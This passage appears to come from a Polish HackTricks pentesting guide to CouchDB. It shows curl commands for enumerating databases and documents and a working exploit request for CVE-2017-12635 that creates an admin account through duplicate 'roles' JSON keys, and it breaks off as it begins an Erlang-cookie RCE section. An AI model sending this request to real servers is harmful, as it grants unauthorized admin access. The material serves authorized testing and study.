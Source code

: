 Wymień każdy wpis w bazie danych
```bash
curl -X GET http://IP:5984/{dbname}/_all_docs
curl http://localhost:5984/simpsons/_all_docs
#Example response:
{"total_rows":7,"offset":0,"rows":[
{"id":"f0042ac3dc4951b51f056467a1000dd9","key":"f0042ac3dc4951b51f056467a1000dd9","value":{"rev":"1-fbdd816a5b0db0f30cf1fc38e1a37329"}},
{"id":"f53679a526a868d44172c83a61000d86","key":"f53679a526a868d44172c83a61000d86","value":{"rev":"1-7b8ec9e1c3e29b2a826e3d14ea122f6e"}},
{"id":"f53679a526a868d44172c83a6100183d","key":"f53679a526a868d44172c83a6100183d","value":{"rev":"1-e522ebc6aca87013a89dd4b37b762bd3"}},
{"id":"f53679a526a868d44172c83a61002980","key":"f53679a526a868d44172c83a61002980","value":{"rev":"1-3bec18e3b8b2c41797ea9d61a01c7cdc"}},
{"id":"f53679a526a868d44172c83a61003068","key":"f53679a526a868d44172c83a61003068","value":{"rev":"1-3d2f7da6bd52442e4598f25cc2e84540"}},
{"id":"f53679a526a868d44172c83a61003a2a","key":"f53679a526a868d44172c83a61003a2a","value":{"rev":"1-4446bfc0826ed3d81c9115e450844fb4"}},
{"id":"f53679a526a868d44172c83a6100451b","key":"f53679a526a868d44172c83a6100451b","value":{"rev":"1-3f6141f3aba11da1d65ff0c13fe6fd39"}}
]}
```
### **Przeczytaj dokument**

Przeczytaj zawartość dokumentu w bazie danych:
```bash
curl -X GET http://IP:5984/{dbname}/{id}
curl http://localhost:5984/simpsons/f0042ac3dc4951b51f056467a1000dd9
#Example response:
{"_id":"f0042ac3dc4951b51f056467a1000dd9","_rev":"1-fbdd816a5b0db0f30cf1fc38e1a37329","character":"Homer","quote":"Doh!"}
```
## CouchDB Eskalacja Uprawnień [CVE-2017-12635](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2017-12635)

Dzięki różnicom między parserami JSON w Erlangu i JavaScript, możesz **utworzyć użytkownika admina** z danymi uwierzytelniającymi `hacktricks:hacktricks` za pomocą następującego żądania:
```bash
curl -X PUT -d '{"type":"user","name":"hacktricks","roles":["_admin"],"roles":[],"password":"hacktricks"}' localhost:5984/_users/org.couchdb.user:hacktricks -H "Content-Type:application/json"
```
[**Więcej informacji na temat tej luki tutaj**](https://justi.cz/security/2017/11/14/couchdb-rce-npm.html).

## CouchDB RCE

### **Przegląd bezpieczeństwa ciasteczek Erlang**

Przykład [stąd](https://0xdf.gitlab.io/2018/09/15/htb-canape.html).

W dokumentacji CouchDB, szczególnie w sekcji dotyczącej konfiguracji klastra ([link](http://docs.couchdb.org/en/stable/cluster/setup.html#cluster-setup)), omawiane jest użycie portów przez CouchDB w trybie klastra. Wspomniano, że, podobnie jak w trybie samodzielnym, używany jest port `5984`. Dodatkowo, port `5986` jest przeznaczony dla lokalnych API węzłów, a co ważne, Erlang wymaga portu TCP `4369` dla Daemon Port Mapper Erlang (EPMD), ułatwiającego komunikację między węzłami w klastrze Erlang. Ta konfiguracja tworzy sieć, w której każdy węzeł jest połączony z każdym innym węzłem.
